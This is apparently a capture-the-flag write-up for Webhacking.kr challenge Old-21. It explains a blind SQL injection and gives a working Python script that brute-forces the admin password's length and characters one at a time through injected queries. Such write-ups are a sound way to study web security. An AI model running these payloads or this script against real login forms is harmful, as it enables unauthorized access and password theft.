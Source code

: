 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-21 writeup"
categories: hacking writeup web
---
```


# Introduction
Link: https://webhacking.kr/challenge/bonus-1/

# 1st try
I know we can get some clues from the vulnerable app because it's vulnerable to Blind SQL Injection.
My first attempt was a guessing the username and password to see the output.
![Normal output](/assets/images/old-21/1.png)

And the output when injection happens

![Injected output](/assets/images/old-21/2.png)

# Getting the clue
Further tests confirms that `admin` is the correct username, by trying the following SQL Query, we can brute force the length of the password

```sql
SELECT id, pw FROM table_name WHERE id='admin' and length(pw)=1 or '1'='1'
```
After a bit of research, I found the `SUBSTRING` function in SQL allows us to brute force the password by comparing with every character in the printable characters.

```sql
SELECT id, pw FROM table_name WHERE id='admin' and SUBSTRING(pw, 1, 1)='a' or '1'='1'
```

I wrote a short script to automate the process:
```python
import requests, string

cookies = {
    'PHPSESSID': 'gvgm13av4uouf78ujrhlvn2qot',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.8,vi;q=0.5,ja;q=0.3',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'DNT': '1',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/bonus-1/index.php?id=admin%27+and+length%28pw%29+%3D+4+or+%271%27%3D%271&pw=a',
    # 'Cookie': 'PHPSESSID=gvgm13av4uouf78ujrhlvn2qot',
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

def brute_pw_length():
    for i in range(100):
        print(f"trying {i}")
        payload = {
            'id': f"admin' and length(pw) = {i} or '1'='1",
            'pw': 'a',
        }

        response = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
        if 'fail' not in response.text:
            print(f"{i} is the one")
            return i

def brute_pw(len):
    pw = ''
    for i in range(1, len+1):
        for c in string.printable:
            payload = {
                'id': f"admin' and substring(pw, {i}, 1) = '{c}' or '1'='1",
                'pw': 'a',
            }
            r = requests.get('https://webhacking.kr/challenge/bonus-1/index.php', params=payload, cookies=cookies, headers=headers)
            if 'fail' not in r.text:
                pw+= c
                print(f'password: {pw}')
                break

    print(f'password is: {pw}')

l = brute_pw_length()
brute_pw(l)
```